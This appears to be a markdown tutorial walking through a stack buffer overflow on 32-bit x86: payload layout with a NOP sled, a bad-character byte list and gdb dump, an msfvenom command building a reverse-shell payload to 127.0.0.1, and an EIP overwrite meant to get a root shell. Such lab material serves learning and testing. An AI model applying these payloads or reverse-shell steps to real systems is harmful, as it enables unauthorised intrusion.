





# Buffer overflow
 
 ## EIP
 
 EIP is an register in a x86 architecture (32bit). It stands for "Extended Instruction Pointer".
 EIP will tell our computer where to go next to execute code, in this exploit we will try to write malicious shellcode to the program and make the EIP point to the malicious shellcode.
 
 ## The exploit
 
 
 
 We find the offset to where the EIP address starts. We want to overwrite the address to point to the malicious code.
 Example payload:
 ```$(python -c 'print "\x55" * (2060-100-150) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')```
 ```
   Buffer = "\x55" * (2060 - 100 - 150 - 4)
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
 ```
 What we want to do now is to find out what chars that are bad.
 ```
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
We'll add the CHARS to our payload to see what characters that are bad so we can craft a malicious shellcode.
All these charcters equals to 256 bytes, we need to calculate a new payload.
 ```$(python -c 'print "\x55" * (2060-256) + "<CHARS>" + "\x66" * 4')```
 We can then run ```x/2000xb $esp+500``` in gdb for this output:
 ```
 0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
 ```
 We can see the characters being written in these addresses, and we can see that 0x00, 0x09, 0x0a and 0x20 was disregarded. These are our bad characters, which we will use to craft our shellcode with.
 ```msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode```
 This creates a reverse shell for a local machine, the shellcode is 95 bytes so agian we need to recalculate and change the payload.
 ```
 run $(python -c 'print "\x55" * (2060-100-95)+ "\x90" * 100 + "<SHELLCODE>" + "\x66" * 4')
 ```
 
 
 
 Our shellcode starts at ```0xffffd68e```, But we want EIP to point to a little behind that agian. So our new payload for overwritting EIP will be
"\x7e\xd6\xff\xff" for ```0xffffxd67e```.

Next we open two terminals.

### Terminal 1


We listen for a connection from root.

### Terminal 2


We send the payload which starts the reverse shell.

### Terminal 1

